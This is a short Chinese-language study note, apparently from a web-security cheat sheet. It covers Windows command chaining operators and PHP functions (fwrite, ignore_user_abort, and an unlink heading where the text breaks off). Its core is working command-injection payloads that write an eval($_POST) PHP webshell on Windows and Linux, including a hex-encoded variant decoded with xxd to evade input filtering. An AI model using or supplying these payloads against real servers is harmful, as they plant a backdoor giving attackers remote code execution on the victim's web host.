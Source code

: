 windows下连接命令的符号：**&&、&、|、||**命令拼接符号的区别

- A&B  简单的拼接，AB之间无制约关系
- A&&B   A执行成功，然后才会执行B
- A|B  A的输出，作为B的输入
- A||B  A执行失败，然后才会执行B

windows下命令注入写webshell：

用^转义<

~~~php
echo ^<?php eval($_POST[pass]); ?^> > web目录shell.php
~~~

如果加上单引号会写不进去，如果加双引号会把双引号一起写进去，所以要用^转义<

~~~php
echo '<?php eval($_POST[pass]); ?>' > web目录shell.php
~~~

linux下命令注入写webshell：

linux下需要用单引号来转义<，不过很多php都默认开启gpc，可以先用16进制转换一句话再用xxd命令把16进制还原.

~~~php
echo '<?php eval($_POST[pass]);>' > web目录/shell.php
~~~

~~~php
echo 3c3f706870206576616c28245f504f53545b706173735d293b3e|xxd -r -ps > web目录/shell.php
~~~



---



### fwrite()

fwrite() 函数写入文件，fwrite() 把 *string* 的内容写入文件指针 *file* 处。 如果指定了 *length*，当写入了 *length* 个字节或者写完了 *string* 以后，写入就会停止，视乎先碰到哪种情况。

```php
fwrite(file,string,length)
```

---

### ignore_user_abort() 

设置与客户机断开是否会终止脚本的执行。

如果设置为 true，则忽略与用户的断开，如果设置为 false，会导致脚本停止运行。

如果未设置该参数，会返回当前的设置。

---

### unlink（）

